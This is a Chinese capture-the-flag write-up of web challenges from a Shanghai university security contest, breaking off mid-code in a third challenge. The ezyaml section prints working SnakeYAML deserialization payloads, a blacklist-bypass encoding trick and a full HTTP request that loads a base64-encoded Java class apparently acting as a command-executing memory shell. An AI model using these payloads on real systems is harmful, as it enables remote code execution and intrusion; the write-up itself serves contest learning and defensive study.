







# 第十届上海市大学生网络交全大赛Web&数据安全全解（全网首发）-先知社区

> **来源**: https://xz.aliyun.com/news/18605  
> **文章ID**: 18605

---

# Web

### ezDecryption

脑洞题，在前端发现两个函数，分别在对两个很长的字符串解密，直接在console运行一下，得到了`panshi`和`2oZ5`。  
拼接到一起提交，发现不对，注意到json中有个step字段，直接跳过step1,2向step3发包：  


### web\_ezyaml

题目环境JDK8，核心路由：

```
@RestController
public class IndexController {
  private static final String[] blacklist = new String[] { "ClassPath", "DataSource", "URLClassLoader", "ScriptEngine" };
  
  @RequestMapping({"/"})
  public String index() {
    return "Hello ezyaml, Post /yaml param:yamlContent";
  }
  
  @PostMapping({"/yaml"})
  public String yaml(@RequestParam String yamlContent) {
    Yaml yaml = new Yaml();
    try {
      for (String b : blacklist) {
        if (yamlContent.contains(b))
          return "; 
      } 
      return yaml.loadAs(yamlContent, Object.class).toString();
    } catch (Exception e) {
      return e.getMessage();
    } 
  }
}
```

就是一个加了黑名单的yaml反序列化，看一下依赖：

```
jackson-annotations-2.13.5.jar
jackson-core-2.13.5.jar
jackson-databind-2.13.5.jar
jackson-datatype-jdk8-2.13.5.jar
jackson-datatype-jsr310-2.13.5.jar
jackson-module-parameter-names-2.13.5.jar
jakarta.annotation-api-1.3.5.jar
jul-to-slf4j-1.7.36.jar
log4j-api-2.17.2.jar
log4j-to-slf4j-2.17.2.jar
logback-classic-1.2.12.jar
logback-core-1.2.12.jar
slf4j-api-1.7.36.jar
snakeyaml-1.33.jar
spring-aop-5.3.31.jar
spring-beans-5.3.31.jar
spring-boot-2.7.18.jar
spring-boot-autoconfigure-2.7.18.jar
spring-boot-jarmode-layertools-2.7.18.jar
spring-context-5.3.31.jar
spring-core-5.3.31.jar
spring-expression-5.3.31.jar
spring-jcl-5.3.31.jar
spring-web-5.3.31.jar
spring-webmvc-5.3.31.jar
tomcat-embed-core-9.0.83.jar
tomcat-embed-el-9.0.83.jar
tomcat-embed-websocket-9.0.83.jar
```

没啥特殊的依赖来操作，首先想到的是PropertyPathFactoryBean利用，能够通过JNDI去执行命令：

```
!!org.springframework.beans.factory.config.PropertyPathFactoryBean
 targetBeanName: "ldap://localhost:1389/Basic/Command/calc"
 propertyPath: mi1k7ea
 beanFactory: !!org.springframework.jndi.support.SimpleJndiBeanFactory
  shareableResources: ["ldap://localhost:1389/Basic/Command/calc"]
```

直接打一发Jackson链试试：  
  
也是成功执行命令了，但是发现本地通远程不通，经过测试猜测远程不出网，这就有点难受了。  
这里参考[这篇文章](https://liotree.github.io/2025/02/09/spel%E6%B3%A8%E5%85%A5%E5%92%8Csnakeyaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96waf%20bypass%20trick/)，可以通过多一次url编码来绕过标签的黑名单，此时他的黑名单就形同虚设了。  
接下来就是解决不出网的问题，翻到了这样一个payload：

```
!!org.springframework.context.support.ClassPathXmlApplicationContext ["http://127.0.0.1:8000/spring.xml"]
```

如果能传上去一个spring bean.xml，然后加载本地的xml，就可以实现不出网利用。  
这里参考<https://xz.aliyun.com/news/17830，springboot的multipart会被存储到tomcat目录下的临时文件中，可以通过file协议去加载，实现不出网利用。>  
首先去制作一个xml文件：  
  
构造payload：

```
POST /yaml?yamlContent=%21%21org%2Espringframework%2Econtext%2Esupport%2E%2543%256c%2561%2573%2573%2550%2561%2574%2568XmlApplicationContext%20%5B%20%22file%3A%2F%2F%24%7Bcatalina%2Ehome%7D%2F%2A%2A%2F%2A%2Etmp%22%20%5D HTTP/1.1
Host: localhost:8080
X-Authorization: id
Connection: close
Content-Type: multipart/form-data; boundary=--xxxxxx
Content-Length: 7984

--xxxxxx
Content-Disposition: form-data; name="1"

<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
                           http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="decoder" class="org.springframework.beans.factory.config.MethodInvokingFactoryBean">
        <property name="staticMethod" value="javax.xml.bind.DatatypeConverter.parseBase64Binary"/>
        <property name="arguments">
            <list>
                <value>yv66vgAAADIBMAEATW9yZy9hcGFjaGUvc2hpcm8vY295b3RlL2ludHJvc3BlY3QvV2l0aE1lbWJlcmVmZmM0ZTE3Mzk2ZDQ5YWE4OGFhNTYwYWU5ZWM1NWI2BwABAQAQamF2YS9sYW5nL09iamVjdAcAAwEAEGdldFJlcUhlYWRlck5hbWUBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEAD1gtQXV0aG9yaXphdGlvbggABwEABjxpbml0PgEAAygpVgEAE2phdmEvbGFuZy9FeGNlcHRpb24HAAsMAAkACgoABAANAQADcnVuDAAPAAoKAAIAEAEAEGphdmEvbGFuZy9UaHJlYWQHABIBAA1jdXJyZW50VGhyZWFkAQAUKClMamF2YS9sYW5nL1RocmVhZDsMABQAFQoAEwAWAQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwwAGAAZCgATABoBADxvcmcuc3ByaW5nZnJhbWV3b3JrLndlYi5jb250ZXh0LnJlcXVlc3QuUmVxdWVzdENvbnRleHRIb2xkZXIIABwBABVqYXZhL2xhbmcvQ2xhc3NMb2FkZXIHAB4BAAlsb2FkQ2xhc3MBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7DAAgACEKAB8AIgEAFGdldFJlcXVlc3RBdHRyaWJ1dGVzCAAkAQAMaW52b2tlTWV0aG9kAQA4KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL09iamVjdDsMACYAJwoAAgAoAQAKZ2V0UmVxdWVzdAgAKgEAC2dldFJlc3BvbnNlCAAsAQAIZ2V0Q2xhc3MBABMoKUxqYXZhL2xhbmcvQ2xhc3M7DAAuAC8KAAQAMAEACWdldEhlYWRlcggAMgEAD2phdmEvbGFuZy9DbGFzcwcANAEAEGphdmEvbGFuZy9TdHJpbmcHADYBAAlnZXRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7DAA4ADkKADUAOgwABQAGCgACADwBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QHAD4BAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMAEAAQQoAPwBCAQAHaXNFbXB0eQEAAygpWgwARABFCgA3AEYBAAlnZXRXcml0ZXIIAEgBAA5qYXZhL2lvL1dyaXRlcgcASgEABmhhbmRsZQEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7DABMAE0KAAIATgEABXdyaXRlAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWDABQAFEKAEsAUgEABWZsdXNoDABUAAoKAEsAVQEABWNsb3NlDABXAAoKAEsAWAEABmV5SmVYQQgAWgEACnN0YXJ0c1dpdGgBABUoTGphdmEvbGFuZy9TdHJpbmc7KVoMAFwAXQoANwBeAQAGbGVuZ3RoAQADKClJDABgAGEKADcAYgEABmNoYXJBdAEABChJKUMMAGQAZQoANwBmAQAHdmFsdWVPZgEAFShDKUxqYXZhL2xhbmcvU3RyaW5nOwwAaABpCgA3AGoBABFqYXZhL2xhbmcvSW50ZWdlcgcAbAEACHBhcnNlSW50AQAVKExqYXZhL2xhbmcvU3RyaW5nOylJDABuAG8KAG0AcAEAAS4IAHIBAAdpbmRleE9mDAB0AG8KADcAdQEACXN1YnN0cmluZwEAFihJSSlMamF2YS9sYW5nL1N0cmluZzsMAHcAeAoANwB5AQAMYmFzZTY0RGVjb2RlAQAWKExqYXZhL2xhbmcvU3RyaW5nOylbQgwAewB8CgACAH0BAAF4AQAGKFtCKVtCDAB/AIAKAAIAgQEABShbQilWDAAJAIMKADcAhAEAF2phdmEvbGFuZy9TdHJpbmdCdWlsZGVyBwCGCgCHAA0BAAYvOWovNEEIAIkBAAZhcHBlbmQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcjsMAIsAjAoAhwCNAQAEZXhlYwwAjwBNCgACAJABAAhnZXRCeXRlcwEABCgpW0IMAJIAkwoANwCUAQAMYmFzZTY0RW5jb2RlAQAWKFtCKUxqYXZhL2xhbmcvU3RyaW5nOwwAlgCXCgACAJgBAAUvOWs9PQgAmgEACHRvU3RyaW5nDACcAAYKAIcAnQEAFnN1bi5taXNjLkJBU0U2NERlY29kZXIIAJ8BAAdmb3JOYW1lDAChACEKADUAogEADGRlY29kZUJ1ZmZlcggApAEAC25ld0luc3RhbmNlAQAUKClMamF2YS9sYW5nL09iamVjdDsMAKYApwoANQCoAQACW0IHAKoBABBqYXZhLnV0aWwuQmFzZTY0CACsAQAKZ2V0RGVjb2RlcggArgEABmRlY29kZQgAsAEACmdldEVuY29kZXIIALIBABJbTGphdmEvbGFuZy9DbGFzczsHALQBABNbTGphdmEvbGFuZy9PYmplY3Q7BwC2AQAOZW5jb2RlVG9TdHJpbmcIALgBABZzdW4ubWlzYy5CQVNFNjRFbmNvZGVyCAC6AQAGZW5jb2RlCAC8AQAPPz8/Pz8/Pz8/Pz8/Pz8/CAC+AQAHb3MubmFtZQgAwAEAEGphdmEvbGFuZy9TeXN0ZW0HAMIBAAtnZXRQcm9wZXJ0eQwAxABNCgDDAMUBAAt0b0xvd2VyQ2FzZQwAxwAGCgA3AMgBAAN3aW4IAMoBAAhjb250YWlucwEAGyhMamF2YS9sYW5nL0NoYXJTZXF1ZW5jZTspWgwAzADNCgA3AM4BAAcvYmluL3NoCADQAQACLWMIANIBAAdjbWQuZXhlCADUAQACL2MIANYBABFqYXZhL2xhbmcvUnVudGltZQcA2AEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsMANoA2woA2QDcAQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAjwDeCgDZAN8BABFqYXZhL2xhbmcvUHJvY2VzcwcA4QEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsMAOMA5AoA4gDlAQARamF2YS91dGlsL1NjYW5uZXIHAOcBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYMAAkA6QoA6ADqAQACXGEIAOwBAAx1c2VEZWxpbWl0ZXIBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL3V0aWwvU2Nhbm5lcjsMAO4A7woA6ADwAQAACADyAQAHaGFzTmV4dAwA9ABFCgDoAPUBAARuZXh0DAD3AAYKAOgA+AEACmdldE1lc3NhZ2UMAPoABgoADAD7AQATW0xqYXZhL2xhbmcvU3RyaW5nOwcA/QEAE2phdmEvaW8vSW5wdXRTdHJlYW0HAP8BAB9qYXZhL2xhbmcvTm9TdWNoTWV0aG9kRXhjZXB0aW9uBwEBAQAgamF2YS9sYW5nL0lsbGVnYWxBY2Nlc3NFeGNlcHRpb24HAQMBACtqYXZhL2xhbmcvcmVmbGVjdC9JbnZvY2F0aW9uVGFyZ2V0RXhjZXB0aW9uBwEFAQBdKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzO1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DAAmAQcKAAIBCAEAEmdldERlY2xhcmVkTWV0aG9kcwEAHSgpW0xqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7DAEKAQsKADUBDAEAB2dldE5hbWUMAQ4ABgoAPwEPAQAGZXF1YWxzAQAVKExqYXZhL2xhbmcvT2JqZWN0OylaDAERARIKADcBEwEAEWdldFBhcmFtZXRlclR5cGVzAQAUKClbTGphdmEvbGFuZy9DbGFzczsMARUBFgoAPwEXAQARZ2V0RGVjbGFyZWRNZXRob2QMARkAOQoANQEaAQANZ2V0U3VwZXJjbGFzcwwBHAAvCgA1AR0MAAkAUQoBAgEfAQANc2V0QWNjZXNzaWJsZQEABChaKVYMASEBIgoAPwEjAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24HASUKAQQA+woBJgEfAQAbW0xqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7BwEpAQAIPGNsaW5pdD4KAAIADQEABENvZGUBAApFeGNlcHRpb25zAQANU3RhY2tNYXBUYWJsZQAhAAIABAAAAAAACwACAAUABgABAS0AAAAPAAEAAQAAAAMSCLAAAAAAAAEACQAKAAIBLQAAABUAAQABAAAACSq3AA4qtgARsQAAAAABLgAAAAQAAQAMAAEADwAKAAEBLQAAANAABgAIAAAAgrgAF7YAG0wqKxIdtgAjEiW3AClNKiwSK7cAKU4qLBIttwApOgQttgAxEjMEvQA1WQMSN1O2ADs6BRkFLQS9AARZAyq3AD1TtgBDwAA3OgYZBsYALBkGtgBHmgAkKhkEEkm3ACnAAEs6BxkHGQa4AE+2AFMZB7YAVhkHtgBZpwAETbEAAQAHAH0AgAAMAAEBLwAAADQAA/8AfQAHBwACBwAfBwAEBwAEBwAEBwA/BwA3AAD/AAIAAgcAAgcAHwABBwAM/AAABwAEAAoATABNAAIBLQAAALYABgAGAAAAjRJbTAFNKiu2AF+ZAH4qK7YAY7YAZ7gAa7gAcT4DNgQDNgUVBR2iABsVBCortgBjBGAVBWC2AGdgNgSEBQGn/+W7ADdZKiu2AGMEYB1gFQRgKhJztgB2tgB6uAB+uACCtwCFTbsAh1m3AIgSirYAjiy4AJG2AJW4AIK4AJm2AI4Sm7YAjrYAnrAquACRsAAAAAEBLwAAABcAA/8AIgAGBwA3BwA3BQEBAQAAHfgARwEuAAAABAABAAwACgB7AHwAAgEtAAAAigAGAAQAAABqEqC4AKNMKxKlBL0ANVkDEjdTtgA7K7YAqQS9AARZAypTtgBDwACrwACrsEwSrbgAo00sEq8DvQA1tgA7AQO9AAS2AENOLbYAMRKxBL0ANVkDEjdTtgA7LQS9AARZAypTtgBDwACrwACrsAABAAAAKgArAAwAAQEvAAAABgABawcADAEuAAAABAABAAwACQCWAJcAAgEtAAAAqAAGAAUAAABzAUwSrbgAo00sErMBwAC1tgA7LAHAALe2AENOLbYAMRK5BL0ANVkDEqtTtgA7LQS9AARZAypTtgBDwAA3TKcANE4Su7gAo00stgCpOgQZBLYAMRK9BL0ANVkDEqtTtgA7GQQEvQAEWQMqU7YAQ8AAN0wrsAABAAIAPQBAAAwAAQEvAAAAGwAC/wBAAAIHAKsHADcAAQcADP0AMAcANQcABAEuAAAABAABAAwACQB/AIAAAQEtAAAASAAGAAQAAAApEr+2AJVMKr68CE0DPh0qvqIAFywdKh0zKx0rvnAzgpFUhAMBp//pLLAAAAABAS8AAAANAAL+AA0HAKsHAKsBGQAKAI8ATQABAS0AAADjAAQABwAAAJMEPBLBuADGTSzGABEstgDJEsu2AM+ZAAUDPBuZABgGvQA3WQMS0VNZBBLTU1kFKlOnABUGvQA3WQMS1VNZBBLXU1kFKlNOuADdLbYA4LYA5joEuwDoWRkEtwDrEu22APE6BRLzOgYZBbYA9pkAH7sAh1m3AIgZBrYAjhkFtgD5tgCOtgCeOgan/98ZBrBMK7YA/LAAAQAAAIwAjQAMAAEBLwAAADYABv0AGgEHADcYUQcA/v8AIAAHBwA3AQcANwcA/gcBAAcA6AcANwAAI/8AAgABBwA3AAEHAAwAAgAmACcAAgEtAAAAGwAFAAMAAAAPKissA70ANQO9AAS3AQmwAAAAAAEuAAAACAADAQIBBAEGAAIAJgEHAAIBLQAAASUAAwAKAAAAzCvBADWZAAorwAA1pwAHK7YAMToFAToGGQU6BxkGxwBkGQfGAF8txwBDGQe2AQ06CAM2CRUJGQi+ogAuGQgVCTK2ARAstgEUmQAZGQgVCTK2ARi+mgANGQgVCTI6BqcACYQJAaf/0KcADBkHLC22ARs6Bqf/qToIGQe2AR46B6f/nRkGxwAMuwECWSy3ASC/GQYEtgEkK8EANZkAGxkGARkEtgBDsDoIuwEmWRkItgEntwEovxkGKxkEtgBDsDoIuwEmWRkItgEntwEovwADACUAcgB1AQIAnACkAKUBBAC0ALwAvQEEAAEBLwAAAC8ADg5DBwA1/gAIBwA1BwA/BwA1/QAXBwEqASwF+QACCEIHAQILDVUHAQQOSAcBBAEuAAAACAADAQIBBgEEAAgBKwAKAAEBLQAAAC4AAgABAAAADbsAAlm3ASxXpwAES7EAAQAAAAgACwAMAAEBLwAAAAcAAksHAAwAAAA=</value>

            </list>

        </property>

    </bean>

    <bean id="classLoader" class="javax.management.loading.MLet"/>
    <bean id="clazz" factory-bean="classLoader" factory-method="defineClass">
        <constructor-arg ref="decoder"/>
        <constructor-arg type="int" value="0"/>
        <constructor-arg type="int" value="5030"/>
    </bean>

    <bean factory-bean="clazz" factory-method="newInstance"/>
</beans>
--xxxxxx
```

  
成功回显执行命令

### web-jaba\_ez

直接看源码：

```
@RestController
@RequestMapping({"/api"})
public class VulnController {
    private static Map<String, ScheduledJob> jobs = new HashMap();
    private static final String[] JOB_BLACKLIST = new String[]{"java.net.URL", "javax.naming.InitialContext", "org.yaml.snakeyaml", "org.springframework", "org.apache", "rmi", "ldap", "ldaps", "http", "https"};
    private static final String[] JOB_WHITELIST = new String[]{"com.jabaez.FLAG"};

    public VulnController() {
    }

    @GetMapping({"/server"})
    public Map<String, Object> getServerInfo() {
        Map<String, Object> info = new HashMap();
        info.put("javaHome", System.getProperty("java.home"));
        info.put("javaVersion", System.getProperty("java.version"));
        info.put("osName", System.getProperty("os.name"));
        info.put("userDir", System.getProperty("user.dir"));
        info.put("uploadDir", "/tmp/uploads");
        Charset gbk = Charset.forName("GBK");
        byte[] bytes = gbk.encode("你好").array();
        System.out.println(Arrays.toString(bytes));
        return info;
    }

    @PostMapping({"/upload"})
    public Map<String, String> uploadFile(@RequestParam("file") MultipartFile file) {
        Map<String, String> result = new HashMap();

        try {
            String uploadDir = "/tmp/uploads/";
            File dir = new File(uploadDir);
            if (!dir.exists()) {
                dir.mkdirs();
            }

            String originalFilename = file.getOriginalFilename();
            if (originalFilename == null) {
                result.put("status", "error");
                result.put("message", "文件名为空");
                return result;
            }

            String filename = (new File(originalFilename)).getName();
            if (filename.contains("..") || filename.contains("/") || filename.contains("\") || filename.startsWith(".")) {
                result.put("status", "error");
                result.put("message", "非法文件名");
                return result;
            }

            File dest = new File(uploadDir + filename);
            String uploadPathCanonical = (new File(uploadDir)).getCanonicalPath();
            String destCanonical = dest.getCanonicalPath();
            if (!destCanonical.startsWith(uploadPathCanonical + File.separator)) {
                result.put("status", "error");
                result.put("message", "非法文件路径");
                return result;
            }

            file.transferTo(dest);
            result.put("status", "success");
            result.put("path", dest.getAbsolutePath());
            result.put("message", "文件上传成功");
        } catch (Exception var10) {
            Exception e = var10;
            result.put("status", "error");
            result.put("message", e.getMessage());
        }

        return result;
    }

    @PostMapping({"/job/add"})
    public Map<String, Object> addJob(@RequestBody ScheduledJob job) {
        Map<String, Object> result = new HashMap();
        if (this.containsBlacklist(job.getInvokeTarget())) {
            result.put("status", "error");
            result.put("message", "包含非法字符");
            return result;
        } else if (!this.containsWhitelist(job.getInvokeTarget())) {
            result.put("status", "error");
            result.put("message", "目标不在白名单中");
            return result;
        } else {
            jobs.put(job.getJobName(), job);
            result.put("status", "success");
            result.put("message", "任务添加成功");
            result.put("jobId", job.getJobName());
            return result;
        }
    }

    @PostMapping({"/job/run/{jobName}"})
    public Map<String, Object> runJob(@PathVariable String jobName) {
        Map<String, Object> result = new HashMap();
        ScheduledJob job = (ScheduledJob)jobs.get(jobName);
        if (job == null) {
            result.put("status", "error");
            result.put("message", "任务不存在");
            return result;
        } else {
            try {
                this.invokeMethod(job.getInvokeTarget());
                result.put("status", "success");
                result.put("message", "任务执行成功");
            } catch (Exception var5) {
                Exception e = var5;
                result.put("status", "error");
                result.put("message", e.getMessage());
                result.put("stackTrace", e.getStackTrace()[0].toString());
            }

            return result;
        }
    }

    private boolean containsBlacklist(String str) {
        if (str == null) {
            return false;
        } else {
            String lowerStr = str.toLowerCase();
            String[] var3 = JOB_BLACKLIST;
            int var4 = var3.length;

            for(int var5 = 0; var5 < var4; ++var5) {
                String blackItem = var3[var5];
                if (lowerStr.contains(blackItem.toLowerCase())) {
                    return true;
                }
            }

            return false;
        }
    }

    private boolean containsWhitelist(String str) {
        if (str == null) {
            return false;
        } else {
            String[] var2 = JOB_WHITELIST;
            int var3 = var2.length;

            for(int var4 = 0; var4 < var3; ++var4) {
                String whiteItem = var2[var4];
                if (str.contains(whiteItem)) {
                    return true;
                }
            }

            return false;
        }
    }

    private Object invokeMethod(String invokeTarget) throws Exception {
        int hashIndex = invokeTarget.indexOf(35);
        if (hashIndex == -1) {
            throw new IllegalArgumentException("Invalid format, expected: className#methodName(params)");
        } else {
            String className = invokeTarget.substring(0, hashIndex);
            String methodAndParams = invokeTarget.substring(hashIndex + 1);
            int paramStart = methodAndParams.indexOf(40);
            int paramEnd = methodAndParams.lastIndexOf(41);
            if (paramStart != -1 && paramEnd != -1) {
                String methodName = methodAndParams.substring(0, paramStart);
                String paramStr = methodAndParams.substring(paramStart + 1, paramEnd);
                Class<?> clazz = Class.forName(className);
                List<Object> paramValues = new ArrayList();
                List<Class<?>> paramTypes = new ArrayList();
                if (!paramStr.trim().isEmpty()) {
                    String[] params = this.splitParams(paramStr);
                    String[] var13 = params;
                    int var14 = params.length;

                    for(int var15 = 0; var15 < var14; ++var15) {
                        String param = var13[var15];
                        param = param.trim();
                        if (param.startsWith("'") && param.endsWith("'")) {
                            String value = param.substring(1, param.length() - 1);
                            paramValues.add(value);
                            paramTypes.add(String.class);
                        } else if (param.equals("null")) {
                            paramValues.add((Object)null);
                            paramTypes.add(String.class);
                        } else if (param.matches("\d+")) {
